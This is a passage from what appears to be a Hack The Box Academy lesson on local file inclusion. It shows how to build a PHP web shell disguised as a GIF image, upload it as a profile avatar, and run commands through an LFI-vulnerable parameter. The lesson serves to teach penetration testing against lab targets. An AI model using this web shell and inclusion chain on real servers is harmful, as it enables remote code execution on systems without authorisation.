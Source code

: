 
```shell-session
smoothment@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

This file on its own is completely harmless and would not affect normal web applications in the slightest. However, if we combine it with an LFI vulnerability, then we may be able to reach remote code execution.

**Note:** We are using a `GIF` image in this case since its magic bytes are easily typed, as they are ASCII characters, while other extensions have magic bytes in binary that we would need to URL encode. However, this attack would work with any allowed image or file type. The [File Upload Attacks](https://academy.hackthebox.com/module/details/136) module goes more in depth for file type attacks, and the same logic can be applied here.

Now, we need to upload our malicious image file. To do so, we can go to the `Profile Settings` page and click on the avatar image to select our image, and then click on upload and our image should get successfully uploaded:

   

![](https://academy.hackthebox.com/storage/modules/23/lfi_upload_gif.jpg)

#### Uploaded File Path

Once we've uploaded our file, all we need to do is include it through the LFI vulnerability. To include the uploaded file, we need to know the path to our uploaded file. In most cases, especially with images, we would get access to our uploaded file and can get its path from its URL. In our case, if we inspect the source code after uploading the image, we can get its URL:

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

**Note:** As we can see, we can use `/profile_images/shell.gif` for the file path. If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file, though this may not always work as some web applications properly hide the uploaded files.

With the uploaded file path at hand, all we need to do is to include the uploaded file in the LFI vulnerable function, and the PHP code should get executed, as follows:

```
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/lfi_include_uploaded_gif.jpg)

As we can see, we included our file and successfully executed the `id` command.

**Note:** To include to our uploaded file, we used `./profile_images/` as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to `../` out of that directory and then use our URL path, as we learned in previous sections.

---

## Zip Upload
